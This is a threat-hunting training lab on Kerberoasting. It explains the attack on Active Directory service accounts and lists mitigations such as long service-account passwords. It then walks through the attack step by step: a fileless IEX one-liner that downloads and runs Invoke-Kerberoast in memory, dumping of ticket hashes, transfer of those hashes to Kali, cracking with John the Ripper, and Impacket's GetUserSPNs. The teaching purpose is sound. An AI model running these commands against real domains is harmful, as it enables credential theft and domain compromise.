

# Chapter 2.2 - Kerberoasting

> **So why is Kerberoasting so interesting :**
>
>- can be performed from any ***domain joined machine***.
>- user needs no special privileges to request a service ticket - ***ANY*** user can do this.
>- The target system doesn't even need to be available or even exist anymore, if the SPN (service account that exists is enough).
>- Very hard to spot as this blends in with other service ticket requests.
>- Cracking the ticket happens ***off-line***.

**Here's the gist of it:**

Part of a TGS requested for any SPN, is encrypted with the **NTLM hash of that service account’s plaintext password**, any user can request these TGS tickets and then crack hash of the service account offline, without the risk of account lockout!

# HIGH LEVEL OVERVIEW OF KERBEROS
---


<div style="text-align: right"><font size="2">Image by SpecterOps (Will Shroeder)</font></div>

---


<div style="text-align: right"><font size="2">Image by SpecterOps (Will Shroeder)</font></div>

---

>**Kerberoasting mitigations:** The best way to prevent adversaries from cracking kerberos tickets is by using very long and complex passwords. Service Accounts should have a minimum of **25 characters**, make sure to frequently **rotate** the passwords and adhere to the **least privilege** principle when assigning rights to the account (i.e. Don't add the account to Domain Admins just because it's easy). You can also consider using Group Managed Service Accounts (**GSMA**) or another third-party product such as a password vault.

The table below shows you the average time it would take to brute-force a password, keep in mind these numbers only reflect hard brute forcing, so not using password dictionaries or rainbox tables.


A Few useful **CLI** commands:

|command|Details|
|---|---|
|**net user SVC_SQL /domain**|*Query DC for user details.*|
|**net user SVC_SQL Password123!**|*Set the password of a domain user to Password123.*|
|**net user /add /domain /active:yes SVC_SQL Password123!**|*Add a user to the domain, enable the account and set the password.*|
|**net user SVC_SQL /domain /active:no**|*Disable (or enable) a domain account*|
|**net group "domain admins" SVC_SQL /ADD /DOMAIN**|*Add account to "Domain Admins" (or any other group).*|
|**setspn -T acme -Q \*/\***|*Enumerate all Service Principal Names (SPN), to find service accounts.*|
|**setspn -A SVC_SQL/dc.acme.local:12345 acme\SVC_sql**|*Create an SPN for an account.*|


And the same in **POWERSHELL**:

|command|Details|
|---|---|
|**$secpasswd = ConvertTo-SecureString -String "Password123" -AsPlainText -Force**|*Put the password in a variable.*|
|**New-ADuser -Name 'SVC_SQL' -GivenName 'SVC' -Surname 'SQL' -DisplayName 'SVC_SQL' -AccountPassword $secpasswd -enabled 1**|*Add a user to the domain, enable the account and set the password.*|

So now let's set up our lab environment by creating a kerberoastable account that has a weak password.

```
net user /add /domain /active:yes SVC_SQL Password123!
```


# KERBEROASTING IN ACTION
---

- source: ***[GetUserSPNs.ps1](https://github.com/nidem/kerberoast/blob/master/GetUserSPNs.ps1)*** - link

Let's see which **SPN**'s exist and to which groups they belong, let try to get some parent process activity going. Open a **command** prompt:

```code
powershell.exe -NoP -NonI -Exec Bypass -command "c:\labs\4_KERBEROAST\GetUserSPNs.ps1"
```


>**NOTE: The labs might have different service accounts, ours won't be part of domain admins - because, well that would be too easy :)**

Now let's request a ticket for those SPN's, by running the one-liner below you're again doing the attack in a file-less manner by downloading the Invoke-Kerberoast powershell script directly into the memory of `powershell.exe`:

source: ***[Invoke-Kerberoast.ps1](https://github.com/BC-SECURITY/Empire/blob/master/data/module_source/credentials/Invoke-Kerberoast.ps1)*** - link

Open a **powershell** prompt (as Administrator):

```yaml
IEX(New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/crimsoncore/threathunt_student/master/labs/4_KERBEROAST/Invoke-Kerberoast.ps1");Invoke-Kerberoast
```

Let's run it locally and save the hashes, this will avoid copy/paste errors, open a **powershell** prompt:

```code
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/crimsoncore/threathunt_student/master/labs/4_KERBEROAST/Invoke-Kerberoast.ps1');
cd C:\threathunt\labs\4_KERBEROAST
Import-Module .\Invoke-Kerberoast.ps1
Invoke-Kerberoast | Select-Object -ExpandProperty hash | out-file -Encoding ASCII kerb-Hash.txt
```

> **IMPORTANT**: If you want to run this attack multiple times, don't forget to purge your Kerberos tickets. Kerberos Tickets are cached for SSO purposes, so if you run the Invoke-Kerberoast script multplie times, your client will not request a new TGS from the DC when it still has one in it's cach.
>
> You can view and clear the cache with these commands:
> 
> ***klist***  
> ***klist purge***


So by default this will ***enumerate ALL SPN's*** on a domain, this of course is suspicious as a user would never to request all those tickets at the same time. A more stealthy adversary will first do his recon (GetUserSPN's for example) and see which service accounts might prove juicy targets, and then just request a **single SPN**:

In the SAME **powershell** prompt:

```code
invoke-kerberoast -Identity SVC_sql
```

> Invoke-Kerberoast's default output is for **John** (the password cracker installed by default on Kali), you can ofcourse change the output format to **HashCat** as well if you prefer working with that.

On your `Windows 10 machine` Open a command prompt:

We're going to start a little python webserver in the `directory` where we save the kerb-hash.txt file. Replace xx with the IP ADDRESS of your windows machine. 

```code
cd c:\labs\4_KERBEROAST
python -m http.server -b 10.0.0.xx 9090
```

# CRACKING HASHES USING JOHN THE RIPPER
---

On your `Kali Machine`, download the requested 

```code
cd /opt  
wget http://10.0.0.xxx:9090/kerb-hash.txt
```
> **xxx** = the IP address of your Windows Machine.

```code
john kerb-hash.txt --wordlist=/opt/threathunt/labs/4_KERBEROAST/Top1000.txt 
```


``` cd /opt
john --show kerb-hash.txt
```


# BONUS : IMPACKET PYTHON
---

- SOURCE: [https://github.com/SecureAuthCorp/impacket](https://github.com/SecureAuthCorp/impacket)


Impacket is a collection of Python classes for working with network protocols. Impacket is focused on providing low-level programmatic access to the packets and for some protocols (e.g. SMB1-3 and MSRPC) the protocol implementation itself.
Packets can be constructed from scratch, as well as parsed from raw data, and the object oriented API makes it simple to work with deep hierarchies of protocols. The library provides a set of tools as examples of what can be done within the context of this library.

> Impacket basically allows you to run a ton of scripts and attacks for windows machines, from a linux box (like Kali), using Python.

You can find some more info here as well: [https://www.secureauth.com/labs/open-source-tools/impacket](https://www.secureauth.com/labs/open-source-tools/impacket)

Installation on your `Windows 10 Machine` (you need Python) open a **command** prompt in ***Administrator*** mode:

```code
cd /
git clone https://github.com/SecureAuthCorp/impacket.git
cd /impacket
pip install .
```

We can now run GetUserSPNs.py from any machine (even non-domain joined), you do need credentials - regular domain user credentials - this enumerates the user accounts that have an SPN's associated with them, and also requests TGS (service tickets):

```
GetUserSPNs.py acme.local/student01:student01 -o spns.txt -request -dc-ip 10.0.0.4
```

and run John the ripper on **"spns.txt"**

```code
sudo -i
john spns.txt --wordlist=/opt/threathunt/labs/4_KERBEROAST/Top1000.txt 
john spns.txt --show
cat ~/.john/john.pot
```

